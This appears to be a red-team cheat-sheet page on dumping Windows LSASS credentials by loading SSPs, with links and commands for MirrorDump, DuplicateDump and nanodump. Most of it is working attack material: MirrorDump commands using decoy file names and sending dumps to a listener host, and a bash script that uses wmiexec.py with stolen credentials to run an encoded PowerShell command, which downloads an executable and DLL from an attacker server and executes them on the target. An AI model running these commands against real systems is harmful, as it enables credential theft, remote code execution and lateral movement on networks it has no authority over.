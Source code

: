 


## Load SSP

- [https://blog.xpnsec.com/exploring-mimikatz-part-2/](https://blog.xpnsec.com/exploring-mimikatz-part-2/)
- [https://www.programmersought.com/article/65604621980/](https://www.programmersought.com/article/65604621980/)
- [https://russianblogs.com/article/42611473286/](https://russianblogs.com/article/42611473286/)
- [https://xakep.ru/2023/03/15/windows-password/](https://xakep.ru/2023/03/15/windows-password/)



### MirrorDump

- [https://github.com/CCob/MirrorDump](https://github.com/CCob/MirrorDump)
- [https://github.com/snovvcrash/MirrorDump](https://github.com/snovvcrash/MirrorDump)

```
Cmd > .\MirrorDump.exe -f "NotLSASS.zip" -d "LegitLSAPlugin.dll" -l 1073741824
Cmd > .\MirrorDump.exe --parse

$ python3 MirrorDump.py 0.0.0.0 31337 --md5 --parse
Cmd > .\MirrorDump.exe --host 10.10.13.37 --port 31337
```



### DuplicateDump

- [https://github.com/Hagrid29/DuplicateDump](https://github.com/Hagrid29/DuplicateDump)



### nanodump

- [https://www.coresecurity.com/core-labs/articles/nanodump-red-team-approach-minidumps](https://www.coresecurity.com/core-labs/articles/nanodump-red-team-approach-minidumps)
- [https://github.com/helpsystems/nanodump](https://github.com/helpsystems/nanodump)

```
Cmd > .\load_ssp.x64.exe C:\Windows\Temp\nanodump_ssp.x64.dll
beacon> load_ssp
```

Do it automatically with `wmiexec.py` magic (using [this](https://gist.github.com/mildred/67d22d7289ae8f16cae7) Python HTTP server with PUT support):

{% code title="nanodump_ssp.sh.cs" %}
```bash
#!/usr/bin/env bash

# Usage: sudo nanodump_ssp.sh <[DOMAIN\]USERNAME>:<PASSWORD> <TARGET> <LISTENER>
# Example: sudo nanodump_ssp.sh 'megacorp.local\snovvcrash:Passw0rd!' 192.168.1.11 10.10.13.37 80

CREDS=$1
RHOST=$2
LHOST=$3
LPORT=$4

CMD="IWR -Uri http://${LHOST}/a.exe -OutFile C:\Windows\Temp\a.exe;IWR -Uri http://${LHOST}/a.dll -OutFile C:\Windows\Temp\a.dll;C:\Windows\Temp\a.exe C:\Windows\Temp\a.dll"
CMD_BASE64=`echo -n ${CMD} | iconv -t UTF-16LE | base64 -w0`

python3 -m http.server ${LPORT} &

wmiexec.py -silentcommand -nooutput ${CREDS}@${RHOST} "powershell -enc ${CMD_BASE64}"
sleep 10

```